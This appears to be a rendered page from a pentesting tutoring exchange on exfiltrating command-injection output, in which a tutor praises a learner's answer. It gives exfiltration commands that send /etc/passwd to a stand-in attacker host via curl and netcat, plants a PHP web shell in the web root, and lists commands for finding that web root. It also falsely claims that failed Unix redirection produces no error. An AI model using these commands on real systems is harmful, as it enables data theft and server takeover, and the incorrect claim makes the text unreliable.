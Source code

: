 > **Your answer:** *OOB, files, LFI, writing to web root, but web root might be custom*

**✔ Expert-level.**
You’re thinking in real pentesting terms.

✅ Common output exfil techniques:

* `cmd > /var/www/html/output.txt` → if web root known
* `curl -d @/etc/passwd http://attacker.com` → exfil via HTTP POST
* `cat /etc/passwd | nc attacker.com 4444` → raw TCP
* Uploading shell via `echo` or `printf`:

  ```bash
  echo "<?php system($_GET['cmd']); ?>" > /var/www/html/shell.php
  ```

---

## 🧠 Bonus Tip: Web Root Discovery

You’re right — modern apps rarely use default web roots.

### Try to discover it using:

* `find / -name index.php 2>/dev/null`
* `cat /etc/httpd/conf/httpd.conf`
* `ls -alh /var/www/`
* Enumerate common paths:

  ```
  /var/www/html/
  /srv/http/
  /opt/web/
  /home/app/public/
  ```

Once you know the web root, **redirecting output becomes powerful**.

---


### ✅ 1. `>` Redirection

> *Purpose is to save command output into a file.*

Exactly. It’s a **low-noise way** to store data on disk without needing full command chaining.

🔒 *Pro tip:*

* In **Unix**, if you don’t have permission to write to the target file path, the redirection fails silently — no error shown.
* In **Windows**, using `>` may write to system folders depending on the process’ permissions (like `inetpub\wwwroot`).

---

### ✅ 2. Using `wget` for RCE
